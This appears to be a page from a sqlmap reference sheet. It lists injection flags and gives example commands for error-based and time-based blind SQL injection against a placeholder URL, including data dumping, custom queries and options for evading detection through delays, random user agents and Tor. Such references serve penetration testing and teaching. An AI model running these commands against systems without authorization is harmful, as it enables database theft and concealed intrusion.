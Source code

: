 ## Injection Techniques
- `-p <parameter>`: Specifies the vulnerable parameter.
- `--level <level>`: Sets the level of testing (1-5).
- `--risk <risk>`: Sets the risk of tests (1-3).
- `--technique=<technique>`: Specifies the injection techniques to test (B: Boolean-based, E: Error-based, U: UNION query-based, S: Stacked queries, T: Time-based blind, Q: Inline queries).
- `--random-agent`: Uses a random user-agent string for the request.
- `--delay <seconds>`: Adds a delay between each request to avoid detection.
- `--timeout <seconds>`: Sets a timeout for the HTTP requests.
- `--retries <number>`: Specifies the number of retries if a request times out.
- `--threads <number>`: Specifies the number of concurrent HTTP requests to make.
- `--tor`: Routes traffic through the Tor network for anonymity.
- `--tor-type=<type>`: Specifies the Tor proxy type (SOCKS5, HTTP).
- `--check-tor`: Verifies if the Tor network is correctly configured.

# Commands and Use Cases

#### Error-Based SQL Injection
Error-based SQL injection relies on forcing the database to generate error messages that reveal information about the database.

1. **Testing for Error-Based SQL Injection**: Attempts to exploit error-based SQL injection.
    ```bash
    sqlmap -u <target_url> --technique=E
    ```
2. **Extracting Data via Error-Based Injection**: Dumps data from the database using error-based techniques.
    ```bash
    sqlmap -u <target_url> --technique=E --dump
    ```
3. **Custom Error-Based Payloads**: Executes a custom error-based SQL query.
    ```bash
    sqlmap -u <target_url> --technique=E --sql-query="SELECT user FROM users WHERE id=1"
    ```

#### Time-Based Blind SQL Injection
Time-based blind SQL injection relies on sending payloads that cause a time delay if the query is true.

1. **Testing for Time-Based Blind SQL Injection**: Attempts to exploit time-based blind SQL injection.
    ```bash
    sqlmap -u <target_url> --technique=T
    ```
2. **Extracting Data with Time-Based Injection**: Dumps data from the database using time-based techniques.
    ```bash
    sqlmap -u <target_url> --technique=T --dump
    ```
3. **Increasing Delay for Slow Responses**: Increases the delay to 10 seconds for time-based tests.
    ```bash
    sqlmap -u <target_url> --technique=T --time-sec=10
    ```
